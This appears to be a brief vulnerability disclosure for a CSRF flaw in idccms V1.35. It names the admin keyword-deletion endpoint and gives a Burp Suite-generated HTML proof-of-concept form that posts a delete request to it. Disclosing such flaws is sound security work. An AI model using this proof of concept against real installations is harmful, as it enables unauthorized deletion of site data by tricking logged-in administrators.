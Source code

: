 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/keyWord_deal.php?mudi=del&dataType=word&dataTypeCN=%E9%94%9A%E6%96%87%E6%9C%AC&theme=%E6%96%87%E7%AB%A0CMS&dataID=6

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/keyWord_deal.php?mudi=del&dataType=word&dataTypeCN=%E9%94%9A%E6%96%87%E6%9C%AC&theme=%E6%96%87%E7%AB%A0CMS&dataID=6" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
